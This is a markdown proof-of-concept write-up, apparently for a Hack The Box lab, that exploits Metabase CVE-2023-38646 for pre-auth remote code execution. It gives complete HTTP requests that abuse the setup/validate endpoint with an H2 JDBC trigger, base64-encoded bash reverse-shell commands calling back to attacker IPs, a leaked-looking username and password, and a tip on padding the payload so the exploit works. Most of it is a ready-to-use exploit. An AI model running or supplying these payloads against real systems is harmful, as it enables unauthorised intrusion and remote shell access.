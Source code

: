 
# CVE-2023-38646

## Summary
### User Credencial
|Key|Value|
|----|----|
|USER|metalytics|
|PASS|An4lytics_ds20223#|

## POC in local

### Run container 
```
docker run -d -p 3000:3000 --name metabase metabase/metabase:v0.46.6.
```

### Check access of HP
```
GET / HTTP/1.1
Host: localhost:3000
User-Agent: curl/8.12.1
Accept: */*
Connection: keep-alive


```

### Get setup-token
```
http://localhost:3000/api/session/properties
```

### 

### Prepare Reverse Shell
```
echo 'bash -i >&/dev/tcp/172.17.0.1/4444 0>&1  ' | base64
```

### Payload for Reverse Shell
```
POST /api/setup/validate HTTP/1.1
Host: localhost:3000
Content-Type: application/json
Content-Length: 816

{
    "token": "662282d5-531b-4468-b113-9d0a43bcac5c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE3Mi4xNy4wLjEvNDQ0NCAwPiYxICAK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```


## Exploit
### Check access of HP
```
GET / HTTP/1.1
Host: data.analytical.htb
User-Agent: curl/8.12.1
Accept: */*
Connection: keep-alive


```

### Payload for Reverse Shell
```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE0MC80NDQ0IDA+JjEg}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

## Point
- BASE64エンコーディングの結果、末尾が「=」or「==」になる場合、Exploitに失敗する。末尾が「=」にならないように、エンコード前の文字列の末尾に任意の個数のスペースを追加することで、文字数を調節する必要がある。


## Reference
https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646


